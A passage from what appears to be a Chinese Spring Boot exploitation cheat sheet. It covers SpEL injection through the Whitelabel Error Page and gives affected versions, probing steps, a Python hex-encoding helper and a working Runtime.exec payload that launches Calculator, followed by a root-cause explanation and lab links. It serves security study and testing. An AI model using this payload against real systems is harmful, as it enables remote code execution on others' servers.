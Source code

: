 # 远程代码执行



> 由于 spring boot 相关漏洞可能是多个组件漏洞组合导致的，所以有些漏洞名字起的不太正规，以能区分为准

#### 0x01：whitelabel error page SpEL RCE

**利用条件：**

* spring boot 1.1.0-1.1.12、1.2.0-1.2.7、1.3.0
* 至少知道一个触发 springboot 默认错误页面的接口及参数名

**利用方法：**

**步骤一：找到一个正常传参处**

比如发现访问 `/article?id=xxx` ，页面会报状态码为 500 的错误： `Whitelabel Error Page`，则后续 payload 都将会在参数 id 处尝试。

**步骤二：执行 SpEL 表达式**

输入 `/article?id=${7*7}` ，如果发现报错页面将 7\*7 的值 49 计算出来显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。

由字符串格式转换成 `0x**` java 字节形式，方便执行任意代码：

```
# coding: utf-8

result = ""
target = 'open -a Calculator'
for x in target:
    result += hex(ord(x)) + ","
print(result.rstrip(','))
```

执行 `open -a Calculator` 命令

```
${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```

**漏洞原理：**

1. spring boot 处理参数值出错，流程进入 `org.springframework.util.PropertyPlaceholderHelper` 类中
2. 此时 URL 中的参数值会用 `parseStringValue` 方法进行递归解析
3. 其中 `${}` 包围的内容都会被 `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` 类的 `resolvePlaceholder` 方法当作 SpEL 表达式被解析执行，造成 RCE 漏洞

**漏洞分析：**

​ [SpringBoot SpEL表达式注入漏洞-分析与复现](https://www.cnblogs.com/litlife/p/10183137.html)

**漏洞环境：**

[repository/springboot-spel-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-spel-rce)

正常访问：
